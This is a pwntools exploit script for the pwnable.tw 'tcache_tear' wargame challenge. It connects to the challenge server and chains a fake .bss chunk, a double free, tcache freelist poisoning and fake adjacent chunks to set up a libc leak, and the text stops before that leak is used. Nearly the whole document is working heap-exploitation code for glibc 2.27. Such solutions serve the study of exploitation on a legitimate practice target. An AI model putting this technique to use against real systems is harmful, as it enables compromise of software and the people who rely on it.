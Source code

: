 from pwn import *

exe = ELF("./tcache_tear_patched")
libc = ELF("./libc-18292bd12d37bfaf58e8dded9db7f1f5da1192cb.so")
ld = ELF("./ld-2.27.so")

context.binary = exe
#p = process()
p = remote('chall.pwnable.tw', 10207)
#gdb.attach(p,gdbscript='''
#           b*0x0000000000400B54
#           b*0x0000000000400A25
#           b*0x0000000000400C54
#           b*0x0000000000400BBF
#           ''')

def malloc(size,data):
    p.sendlineafter(b'Your choice :',b'1')
    p.sendlineafter(b'Size:',f'{size}'.encode())
    p.sendafter(b'Data:',data)
def free():
    p.sendlineafter(b'Your choice :',b'2')

def show():
    p.sendlineafter(b'Your choice :',b'3')

bss = 0x0000000000602060

###  FAKE CHUNK ###
p.sendafter(b'Name:',p64(0) + p64(0x501))

malloc(0x50,b'a')

### DOUBLE FREE ###
free()
free()

### OVER WRITE FD ###
malloc(0x50,p64(bss+0x500))

malloc(0x50,b'a')

### FAKE 2 CHUNK TIEP THEO ###
malloc(0x50,(p64(0) + p64(0x21) + p64(0) + p64(0))*2)

### CHANGE PTR TO LEAK ###
malloc(0x60,b'a')
free()
free()
malloc(0x60,p64(bss+0x10))
malloc(0x60,b'a')
malloc(0x60,b'a')
free()

